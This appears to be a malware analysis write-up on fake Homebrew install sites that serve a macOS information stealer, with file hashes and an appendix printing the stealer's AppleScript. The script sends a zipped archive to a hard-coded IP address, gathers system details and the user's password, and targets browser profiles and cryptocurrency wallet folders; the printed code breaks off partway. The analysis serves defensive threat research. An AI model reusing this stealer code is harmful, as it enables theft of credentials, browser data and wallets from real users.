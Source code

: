 They also identified `brewmacos[.]com`:

![[Pasted image 20250125222754.png]]

The `install.sh` is an actual copy of the Homebrew install script, except it pulls down the site's malicious binary.

![[Pasted image 20250125223007.png]]

This is interesting because `brewe[.]sh` didn’t even bother to replicate the functionality of the homebrew script. A hash comparison between `brewe[.]sh` and `macosbrew[.]com` reveals they are different.

```
sha256sum update brewinstaller
b329b32fa3e87f2e8ff7dc3d080e2d042a5484d26f220028b556000389a437c5  update
fa1ffa024184f8ade3ef294b5a7a485a48f52361fbf53d37635c2079c57ebcbb  brewinstaller
```

Looking at the Brew installer binary, it appears more "sophisticated" — more details to come!
# Appendix A: full applescript text
```ap
d filegrabber
on send_data(attempt)
 try
  set result_send to (do shell script "curl -X POST -H \"user: y4CesUC1cxsB9LSNtlrLYJfkctcWwvyW/aWZf12pTkk=\" -H \"BuildID: hYoyhCi0fMW7ns2Jn6Wq9wJm8WHNhuJMb7KvOOCC8No=\" -H \"cl: 0\" -H \"cn: 0\" --max-time 300 -retry 5 -retry-delay 10 -F \"file=@/tmp/out.zip\" http://81.19.135.54/joinsystem")
 on error
  if attempt < 40 then
   delay 3
   send_data(attempt + 1)
  end if
 end try
end send_data
set username to (system attribute "USER")
set profile to "/Users/" & username
set randomNumber to do shell script "echo $((RANDOM % 9000 + 1000))"
set writemind to "/tmp/" & randomNumber & "/"
try
	set result to (do shell script "system_profiler SPSoftwareDataType SPHardwareDataType SPDisplaysDataType")
	writeText(result, writemind & "info")
end try
set library to profile & "/Library/Application Support/"
set password_entered to getpwd(username, writemind)
delay 0.01
set chromiumMap to {{"Chrome", library & "Google/Chrome/"}, {"Brave", library & "BraveSoftware/Brave-Browser/"}, {"Edge", library & "Microsoft Edge/"}, {"Vivaldi", library & "Vivaldi/"}, {"Opera", library & "com.operasoftware.Opera/"}, {"OperaGX", library & "com.operasoftware.OperaGX/"}, {"Chrome Beta", library & "Google/Chrome Beta/"}, {"Chrome Canary", library & "Google/Chrome Canary"}, {"Chromium", library & "Chromium/"}, {"Chrome Dev", library & "Google/Chrome Dev/"}, {"Arc", library & "Arc/"}, {"Coccoc", library & "Coccoc/"}}
set walletMap to {{"deskwallets/Electrum", profile & "/.electrum/wallets/"}, {"deskwallets/Coinomi", library & "Coinomi/wallets/"}, {"deskwallets/Exodus", library & "Exodus/"}, {"deskwallets/Atomic", library & "atomic/Local Storage/leveldb/"}, {"deskwallets/Wasabi", profile & "/.walletwasabi/client/Wallets/"}, {"deskwallets/Ledger_Live", library & "Ledger Live/"}, {"deskwallets/Monero", profile & "/Monero/wallets/"}, {"deskwallets/Bitcoin_Core", library & "Bitcoin/wallets/"}, {"deskwallets/Litecoin_Core", library & "Litecoin/wallets/"}, {"deskwallets/Dash_Core", library & "DashCore/wallets/"}, {"deskwallets/Electrum_LTC", profile & "/.electrum-ltc/wallets/"}, {"deskwallets/Electron_Cash", profile & "/.electron-cash/wallets/"}, {"deskwallets/Guarda", library & "Guarda/"}, {"deskwallets/Dogecoin_Core", library & "Dogecoin/wallets/"}, {"deskwallets/Trezor_Suite", library & "@trezor/suite-desktop/"}}
readwrite(library & "Binance/app-store.json", writemind & "deskwallets/Binance/app-store.json")
```